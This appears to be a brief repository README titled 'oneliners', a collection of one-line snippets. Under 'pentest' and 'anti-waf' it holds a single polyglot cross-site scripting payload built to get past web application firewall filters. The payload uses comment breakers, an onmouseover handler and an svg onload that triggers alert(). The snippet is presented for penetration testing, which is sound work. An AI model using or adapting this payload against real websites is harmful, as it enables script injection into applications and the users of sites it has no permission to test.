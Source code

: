 # oneliners
Collection of handy one line things 


# pentest 

## anti-waf
javascript:"/*'/*`/*--><html \" onmouseover=/*&lt;svg/*/onload=alert()//>
